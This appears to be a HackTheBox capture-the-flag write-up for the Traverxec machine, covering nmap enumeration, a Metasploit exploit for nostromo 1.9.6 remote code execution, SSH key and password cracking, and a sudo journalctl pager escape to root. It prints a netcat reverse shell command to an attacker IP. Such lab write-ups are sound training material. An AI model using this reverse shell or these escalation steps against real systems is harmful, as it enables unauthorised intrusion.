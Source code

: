 ```yaml
---
title: "HackTheBox - Traverxec"
author: Nasrallah
description: ""
date: 2022-09-09 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, stty, cve, rce, crack, john, hashcat]
img_path: /assets/img/hackthebox/machines/traverxec
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Traverxec](https://app.hackthebox.com/machines/Traverxec) from [HackTheBox](https://www.hackthebox.com). The box is running a webserver vulnerable to rce allowing to get a reverse shell on the machine. We enumerate the machine and find ssh private key of user `david`. After that we exploit a sudo entry to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.165
Host is up (0.11s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 2 open ports, 22 running ssh and 80 running nostromo version 1.9.6.

Let's search for exploits in this version.

```terminal
$ searchsploit nostromo                              
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                       | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                       | linux/remote/35466.sh
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

This version is vulnerable to rce and there is a module available on metasploit.

# **Foothold**

Let's fire up metasploit and use the following module : `use exploit/multi/http/nostromo_code_exec`.

![](1.png)

After setting the required option, run the exploit by entering `exploit`.

![](2.png)

We got code execution on the target as www-data.

To get a fully functional shell, setup a listener with `nc -lvnp 1234` and run the following command on the target `nc -e /bin/bash {attacker IP} 1234`

![](3.png)

Got a shell and stabilized it with python pty. 

# **Privilege Escalation**

Going to nostromo's config directory, we find an interesting file.

![](4.png)

Got the hash for user `david`. Let's copy it to our machine and crack it using `hashcat`.

```bash
$ hashcat -m 500 hash.txt ./pass.lst --username --force
```

![](5.png)

Nice, let's switch to user david.

Oops, the password isn't working. After some more enumeration, we find this.

![](6.png)

The configuration file shows that the server admin of nostromo is `david`, we see the location of some files and directories and on interesting directory called **public_www** located in the home directory of a user. Since the admin of the server is david, let's check if this directory is in his home directory.

![](7.png)

We find a backup containing some ssh files. Let's extract the file and see what is holds.

![](8.png)

We managed to find a ssh private key. Let's Copy that to our machine and connect with it.

![](9.png)

After putting the key in a file, we gave the file 600 permission so that we can use it, but it turns out it's protected with a password. Using `ssh2john` we got the hash of that password and managed to crack it using `john`. We managed to log in successfully after that.

In david's home folder we find a **bin** directory with an interesting shell script.

![](10.png)

The script contains the following command:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

We can run the above command as root. Looking up `journalctl` on [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo) we find the command we run to get root.

```terminal
sudo journalctl !/bin/sh
```

The way `journalctl` works is it sends the output to stdout if it can fit into the current page, if not, it sends to less. But with the command above, it's running with `-n 5` so that only 5 lines would come out.

We can either shrink our terminal window to smaller that 5 lines or change the terminal line settings with `stty`. We run the following command to display 3 lines.

```bash
stty rows 3
```

With that, we forced `journalctl` to use `less` which allows us to run `!/bin/bash` to escape it and become root.

![](11.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).